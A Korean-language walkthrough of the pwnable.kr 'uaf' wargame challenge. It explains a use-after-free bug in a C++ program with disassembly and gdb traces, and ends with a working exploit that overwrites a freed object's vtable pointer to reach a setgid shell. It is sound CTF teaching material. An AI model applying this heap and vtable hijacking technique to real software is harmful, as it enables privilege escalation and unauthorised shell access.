

## 문제



8점 문제. Use After Free를 몰라서 또 찾아봐야했다.

```console
$ ls -l
total 24
-rw-r----- 1 root uaf_pwn    22 Sep 25  2015 flag
-r-xr-sr-x 1 root uaf_pwn 15463 Sep 25  2015 uaf
-rw-r--r-- 1 root root     1431 Sep 25  2015 uaf.cpp
```

uaf.cpp

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
    virtual void give_shell(){
        system("/bin/sh");
    }
protected:
    int age;
    string name;
public:
    virtual void introduce(){
        cout << "My name is " << name << endl;
        cout << "I am " << age << " years old" << endl;
    }
};

class Man: public Human{
public:
    Man(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a nice guy!" << endl;
    }
};

class Woman: public Human{
public:
    Woman(string name, int age){
        this->name = name;
        this->age = age;
    }
    virtual void introduce(){
        Human::introduce();
        cout << "I am a cute girl!" << endl;
    }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
            case 1:
                m->introduce();
                w->introduce();
                break;
            case 2:
                len = atoi(argv[1]);
                data = new char[len];
                read(open(argv[2], O_RDONLY), data, len);
                cout << "your data is allocated" << endl;
                break;
            case 3:
                delete m;
                delete w;
                break;
            default:
                break;
        }
    }

    return 0;
}
```

c++ 코드고, 일단 malloc 함수부터 찾아보고 좀 당황했는데,
객체가 heap 영역에서 생성되서 상관이 없었다.

## 풀이

main 함수가 시작되면서 Man과 Woman의 객체를 생성하며 1을 입력하면
각 객체의 introduce() 함수를 호출,
2를 입력하면 새로운 객체 생성,
3을 입력하면 m, w 객체를 제거한다.

```console
$ readelf -a uaf | grep "WEAK   DEFAULT   1"
    57: 00000000004015d0    24 OBJECT  WEAK   DEFAULT   15 _ZTI3Man
    59: 0000000000401580    32 OBJECT  WEAK   DEFAULT   15 _ZTV5Human
    60: 0000000000401192   125 FUNC    WEAK   DEFAULT   13 _ZN5Human9introduceEv
    71: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 _ZN5HumanD1Ev
    73: 00000000004015e8     7 OBJECT  WEAK   DEFAULT   15 _ZTS5Human
    75: 0000000000401308   109 FUNC    WEAK   DEFAULT   13 _ZN5WomanC1ESsi
    78: 00000000004015c8     5 OBJECT  WEAK   DEFAULT   15 _ZTS3Man
    81: 00000000004015b0    24 OBJECT  WEAK   DEFAULT   15 _ZTI5Woman
    83: 0000000000401560    32 OBJECT  WEAK   DEFAULT   15 _ZTV3Man
    85: 000000000040117a    24 FUNC    WEAK   DEFAULT   13 _ZN5Human10give_shellEv
    87: 0000000000401376    54 FUNC    WEAK   DEFAULT   13 _ZN5Woman9introduceEv
    91: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 _ZN5HumanC2Ev
    92: 0000000000401210    41 FUNC    WEAK   DEFAULT   13 _ZN5HumanC1Ev
    93: 0000000000401540    32 OBJECT  WEAK   DEFAULT   15 _ZTV5Woman
    94: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 _ZN3ManC1ESsi
    99: 0000000000401308   109 FUNC    WEAK   DEFAULT   13 _ZN5WomanC2ESsi
   100: 0000000000401264   109 FUNC    WEAK   DEFAULT   13 _ZN3ManC2ESsi
   101: 00000000004015f0    16 OBJECT  WEAK   DEFAULT   15 _ZTI5Human
   105: 00000000004015a0     7 OBJECT  WEAK   DEFAULT   15 _ZTS5Woman
   110: 00000000004012d2    54 FUNC    WEAK   DEFAULT   13 _ZN3Man9introduceEv
   118: 000000000040123a    41 FUNC    WEAK   DEFAULT   13 _ZN5HumanD2Ev
$
```

`readelf -a uaf`로 긁어서 옆 모니터에 놔두고 진행했다.

```cpp-objdump
0000000000400ec4 <main>:
  ...
  400f92:       be fa 14 40 00          mov    $0x4014fa,%esi   ; while(1)
  400f97:       bf 60 22 60 00          mov    $0x602260,%edi
  400f9c:       e8 4f fd ff ff          callq  400cf0 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
  400fa1:       48 8d 45 e8             lea    -0x18(%rbp),%rax
  400fa5:       48 89 c6                mov    %rax,%rsi
  400fa8:       bf e0 20 60 00          mov    $0x6020e0,%edi
  400fad:       e8 1e fe ff ff          callq  400dd0 <_ZNSirsERj@plt>
  400fb2:       8b 45 e8                mov    -0x18(%rbp),%eax ; switch(op)
  400fb5:       83 f8 02                cmp    $0x2,%eax
  400fb8:       74 46                   je     401000 <main+0x13c>      ; case 2
  400fba:       83 f8 03                cmp    $0x3,%eax
  400fbd:       0f 84 b3 00 00 00       je     401076 <main+0x1b2>      ; case 3
  400fc3:       83 f8 01                cmp    $0x1,%eax
  400fc6:       74 05                   je     400fcd <main+0x109>      ; case 1
  400fc8:       e9 dc 00 00 00          jmpq   4010a9 <main+0x1e5>      ; default
  ...
```

이렇게 분기점이 갈리고,

```cpp-objdump
0000000000400ec4 <main>:
  ...
  400fcd:       48 8b 45 c8             mov    -0x38(%rbp),%rax ; m
  400fd1:       48 8b 00                mov    (%rax),%rax
  400fd4:       48 83 c0 08             add    $0x8,%rax
  400fd8:       48 8b 10                mov    (%rax),%rdx
  400fdb:       48 8b 45 c8             mov    -0x38(%rbp),%rax
  400fdf:       48 89 c7                mov    %rax,%rdi
  400fe2:       ff d2                   callq  *%rdx
  400fe4:       48 8b 45 d0             mov    -0x30(%rbp),%rax ; w
  400fe8:       48 8b 00                mov    (%rax),%rax
  400feb:       48 83 c0 08             add    $0x8,%rax
  400fef:       48 8b 10                mov    (%rax),%rdx
  400ff2:       48 8b 45 d0             mov    -0x30(%rbp),%rax
  400ff6:       48 89 c7                mov    %rax,%rdi
  400ff9:       ff d2                   callq  *%rdx
  400ffb:       e9 a9 00 00 00          jmpq   4010a9 <main+0x1e5>
  ...
```

case 1 영역을 볼 때, [rbp-0x38]과 [rbp-0x30]은
각각 m 객체와 w 객체인데 저기에 브레이크를 걸고 레지스터를 따라갔다.

```cpp-objdump
(gdb) b *main+269
Breakpoint 1 at 0x400fd1
(gdb) r
Starting program: /home/uaf/uaf
1. use
2. after
3. free
1

Breakpoint 1, 0x0000000000400fd1 in main ()
(gdb) x/x $rax
0x10d2c50:      0x00401570
(gdb) ni
0x0000000000400fd4 in main ()
(gdb) x/x $rax
0x401570 <_ZTV3Man+16>: 0x0040117a
(gdb) ni
0x0000000000400fd8 in main ()
(gdb) x/x $rax
0x401578 <_ZTV3Man+24>: 0x004012d2
(gdb) ni
0x0000000000400fdb in main ()
(gdb) x/x $rax
0x401578 <_ZTV3Man+24>: 0x004012d2
(gdb) ni
0x0000000000400fdf in main ()
(gdb) x/x $rdx
0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
(gdb)
```

0x401570이 가리키는 것은 0x40117a로 give_shell() 함수이고,
0x401578이 가리키는 주소는 0x4012d2로 introduce() 함수다.
0x401570 대신 0x401568이 있다면 8을 더한 값인 0x401570이 가리키는
0x40117a 함수를 호출할 수 있다.

```cpp-objdump
(gdb) r
Starting program: /home/uaf/uaf
1. use
2. after
3. free
3
1. use
2. after
3. free
1

Breakpoint 1, 0x0000000000400fd1 in main ()
(gdb) x/x $rax
0x253fc50:      0x00000000
(gdb)
```

m, w 객체를 삭제하고 해당 객체를 가리켰을 레지스터를 보면 내용이 비어있다.

```sh
./uaf 4 /tmp/ko/AAAA
```

AAAA 파일에 AAAA를 기록하고 인자로 전달해서
메모리가 어떻게 할당되는지를 보면

```c-objdump
(gdb) b *main+353
Breakpoint 1 at 0x401025
(gdb) r 4 /tmp/ko/AAAA
Starting program: /home/uaf/uaf 4 /tmp/ko/AAAA
1. use
2. after
3. free
2

Breakpoint 1, 0x0000000000401025 in main ()
(gdb) x/x $rax
0xb054e0:       0x00000000
(gdb) c
Continuing.
your data is allocated
1. use
2. after
3. free
2

Breakpoint 1, 0x0000000000401025 in main ()
(gdb) x/x $rax
0xb05500:       0x00000000
(gdb)
```

보통은 이렇게 낮은 주소부터 메모리를 할당하는데...

```c-objdump
(gdb) b *main+353
Breakpoint 1 at 0x401025
(gdb) r 4 /tmp/ko/AAAA
Starting program: /home/uaf/uaf 4 /tmp/ko/AAAA
1. use
2. after
3. free
3
1. use
2. after
3. free
2

Breakpoint 1, 0x0000000000401025 in main ()
(gdb) x/x $rax
0xad5ca0:       0x00ad5c40
(gdb) c
Continuing.
your data is allocated
1. use
2. after
3. free
2

Breakpoint 1, 0x0000000000401025 in main ()
(gdb) x/x $rax
0xad5c50:       0x00000000
(gdb)
```

해제한 메모리를 채울 때는 높은데부터 채우더라.

풀이

```console
$ python -c "print '\x68\x15\x40\x00'" > /tmp/ko/BBBB
$ ./uaf 4 /tmp/ko/BBBB
1. use
2. after
3. free
3 2 2 1
1. use
2. after
3. free
your data is allocated
1. use
2. after
3. free
your data is allocated
1. use
2. after
3. free
$ id
uid=1029(uaf) gid=1029(uaf) egid=1030(uaf_pwn) groups=1030(uaf_pwn),1029(uaf)
$
```
